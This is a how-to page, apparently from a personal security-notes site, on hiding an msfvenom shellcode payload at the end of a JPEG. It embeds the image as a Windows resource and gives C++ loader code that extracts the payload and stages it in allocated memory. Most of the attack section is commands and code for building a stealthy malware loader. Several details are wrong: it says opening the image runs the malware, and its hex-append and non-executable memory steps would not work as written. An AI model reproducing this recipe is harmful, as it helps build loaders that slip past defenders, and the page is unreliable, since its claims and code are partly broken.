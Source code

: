 ```yaml
---
layout: default
---
```


# Hiding malware within an Image

The basic idea is to hide the malware inside the concatenated image file. The malware can be hidden in the binary data of the image file. This can be done by adding the malware code to the end of the image file, after the image data. When the concatenated image file is downloaded and opened, the image will display normally, but the malware code will be executed in the background.

* Download a random image and find the length of byte. We can `xxd` for this purpose.

```bash
xxd -i saturn.jpg
```

![Saturn.jpg with XXD](/docs/resources/malware/saturn-xxd.jpg)

As shown above, the command precisely display the size of the image in bytes. Take a note.

* Create a binary with msfvenom and find its size. For demonstration purposes, lets use a message box binary.

```bash
xxd -i msgbox64.bin
```

![msgbox](/docs/resources/malware/msgbox-size.png)

Once we have both the file length, concatenate the shellcode with the image file.

```bash
xxd -p msgbox64.bin | tr -d "\n" >> saturn.jpg
```

* Create the resource file for the image.

```cpp
#include "resources.h"

IMAGE RCDATA "saturn.jpg"
```

Similarly the` resource.h` file

```cpp
#define IMAGE 100
```

* Final code for reading the malicious image file for the resource would be:

```cpp
// Extract payload from resources section
res = FindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
resHandle = LoadResource(NULL, res);
image = (char *) LockResource(resHandle);
image_len = SizeofResource(NULL, res);
```

The `image` character pointer points to first byte of the malicios image, and `image_len` the corresponding length of the image.

* Extract the shellcode

The `end` character pointer would point to the first byte of binary.

We know already made of note of image length as well as the shellcode length. We can find the corresponding offset that would point to the first byte of the shellcode.

```cpp
offset = image + 2653; 
memcpy(p0,offset,336);

exec_mem = VirtualAlloc(0, 336, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
RtlMoveMemory(exec_mem, p0, 336);
```

We then use the `memcpy` command to copy the shellcode from the image to another location in memory `p0`. Using `VirtualAlloc` shellcode size memory is allocated. Then `RTLMoveMemory` function is used to copy the contents from `p0` memory block to a `exec_mem` memory block. At this point the code could be used to inject into a process or execute as a child process.




